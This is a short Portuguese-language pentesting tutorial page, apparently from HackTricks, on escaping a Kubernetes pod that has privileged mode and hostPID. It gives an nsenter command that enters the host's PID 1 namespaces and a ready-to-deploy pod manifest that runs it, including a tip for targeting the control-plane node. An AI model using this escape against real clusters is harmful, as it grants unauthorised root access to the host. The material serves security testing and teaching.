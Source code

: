 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

Com esses privilégios, você terá **acesso aos processos do host** e **privilegios suficientes para entrar no namespace de um dos processos do host**.\
Note que você pode potencialmente não precisar de privilégios, mas apenas de algumas capacidades e outras possíveis contornações de defesas (como apparmor e/ou seccomp).

Apenas executar algo como o seguinte permitirá que você escape do pod:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
Exemplo de configuração:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command:
[
"nsenter",
"--target",
"1",
"--mount",
"--uts",
"--ipc",
"--net",
"--pid",
"--",
"bash",
]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{{#include ../../../banners/hacktricks-training.md}}
